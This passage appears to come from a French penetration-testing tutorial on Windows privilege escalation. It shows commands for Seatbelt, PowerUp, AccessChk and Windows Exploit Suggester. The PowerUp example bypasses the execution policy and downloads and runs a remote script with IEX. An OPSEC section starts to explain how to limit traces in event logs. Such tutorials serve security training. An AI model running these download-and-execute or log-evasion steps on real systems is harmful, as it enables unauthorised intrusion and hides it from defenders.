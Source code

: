 #### Seatbelt

Seatbelt est un outil de reconnaissance de sécurité Windows :

```powershell
# Exécution de Seatbelt
.\Seatbelt.exe -group=all
```

#### PowerUp

PowerUp est un script PowerShell qui recherche les vecteurs d'escalade de privilèges courants :

```powershell
# Exécution de PowerUp
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"
```

#### AccessChk

AccessChk permet de vérifier les permissions sur les fichiers, les services et les clés de registre :

```powershell
# Vérifier les permissions sur les services
.\accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```

#### Windows Exploit Suggester

Cet outil identifie les exploits potentiels basés sur les mises à jour manquantes :

```powershell
# Sur la machine attaquante
# Exécuter systeminfo sur la cible et sauvegarder la sortie
python windows-exploit-suggester.py --database 2021-04-15-mssb.xls --systeminfo systeminfo.txt
```

### 3.4 Considérations OPSEC

Les activités d'escalade de privilèges laissent des traces dans les journaux Windows. Voici comment minimiser votre empreinte :

#### Journaux à surveiller

Windows enregistre les événements dans plusieurs journaux :

```powershell
# Principaux journaux Windows
Get-EventLog -List
```

Les journaux les plus pertinents sont :
- Security (4624: connexion, 4672: privilèges spéciaux)
- System (7045: nouveau service)
- Application
